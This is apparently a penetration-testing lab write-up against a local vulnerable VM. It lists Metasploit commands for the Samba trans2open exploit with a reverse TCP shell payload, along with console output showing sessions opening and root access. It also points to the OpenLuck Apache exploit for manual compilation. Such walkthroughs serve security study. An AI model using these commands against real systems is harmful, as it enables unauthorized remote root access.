

# Exploit <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

## Manually (kind of)

- download exploit from github ([OpenLuck](https://github.com/heltonWernik/OpenLuck))
- install libssl-dev
- compile 'opelLuck.c'
- execute



> WE GOT apache ?!?!?

---
